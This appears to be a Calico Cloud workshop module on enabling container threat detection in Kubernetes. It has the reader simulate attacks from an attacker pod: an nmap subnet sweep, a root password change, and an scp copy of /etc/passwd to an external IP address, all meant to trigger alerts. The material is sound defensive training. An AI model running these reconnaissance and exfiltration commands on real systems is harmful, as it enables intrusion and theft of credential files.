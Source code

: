 # Module 6 - Runtime Container Thread Defence

Calico Cloud provides a threat detection engine that analyzes observed file and process activity to detect known malicious and suspicious activity.

Our threat detection engine also monitors activity within the containers running in your clusters to detect suspicious behaviour and generate corresponding alerts. The threat detection engine monitors the following types of suspicious activity within containers:

- Access to sensitive system files and directories
- Defence evasion
- Discovery
- Execution
- Persistence
- Privilege escalation

1. Let's start by enabling the container threat detection feature.
   For this, go to the `Threat Defense` option in the left-hand menu of Calico Cloud and select `Container Threat Detection`.

2. If it is not enabled, you will see a page like this:

   ![enable](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/54014c62-cbef-4718-93fa-75390febb88a)

   Click on the Enable Container Threat Detection button, and you will see the following page:

   ![running](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/42906ad6-ced1-40a8-b817-4a4b5c740d08)

   Perfect! Now any suspicious activities will generate an alert. Let's try some.

   In other to see the results faster, execute the following on the cluster:

   ```bash
   kubectl -n tigera-runtime-security annotate daemonset runtime-reporter unsupported.operator.tigera.io/ignore="true"
   kubectl -n tigera-runtime-security get daemonset.apps/runtime-reporter -o yaml | sed 's/15m/1m/g' | kubectl apply -f -
   ```

3. Execute the following commands from the attacker pod (if you did quit from its shell, it got deleted. Create it again if it's the case.).

   ```bash
   apk update
   apk add nmap
   nmap -sn $(hostname -i)/24
   ```

   Wait a minute and look in the Calico Cloud UI in the `Threat Defense` > `Security Events`.

   Optionally, you can also try the following;

   ```bash
   passwd root
   scp -o ConnectTimeout=3 /etc/passwd goomba@198.13.47.158:/tmp/
   ```

   Wait another minute and look in the Calico Cloud UI in the `Threat Defense` > `Security Events` again.

---

[:arrow_right: Module 7 - Quarantine Infected Workloads and KSPM](modules/module-7-quarantine-kspm.md)  

[:arrow_left: Module 5 - Configuring IDS protection and Workload-Centric WAF](modules/module-5-ids-waf.md)  
[:leftwards_arrow_with_hook: Back to Main](../README.md)  
